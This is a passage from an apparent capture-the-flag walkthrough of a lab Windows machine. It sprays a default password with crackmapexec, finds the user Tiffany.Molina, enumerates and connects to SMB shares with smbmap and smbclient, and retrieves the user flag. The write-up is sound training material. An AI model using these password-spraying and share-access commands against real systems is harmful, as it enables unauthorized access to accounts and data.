 So now we can spray this password to see if anyone left it by default:

```
crackmapexec smb 10.129.44.184 -u userPDF.txt -p NewIntelligenceCorpUser9876 --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (676).png" alt=""><figcaption><p>Tiffany.Molina</p></figcaption></figure>

So this _**Tiffany.Molina**_ user left password by default

Now let's try to dig out on the SMB side of the user:

```
smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.44.184
```

<figure><img src="../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>

and then we connect in the Users share:

```
smbclient -U Tiffany.Molina //10.129.44.184/Users NewIntelligenceCorpUser9876
```

And pull the user flag out of the Desktop:

<figure><img src="../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>

further enumeration led to going in the IT share ->

<figure><img src="../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>
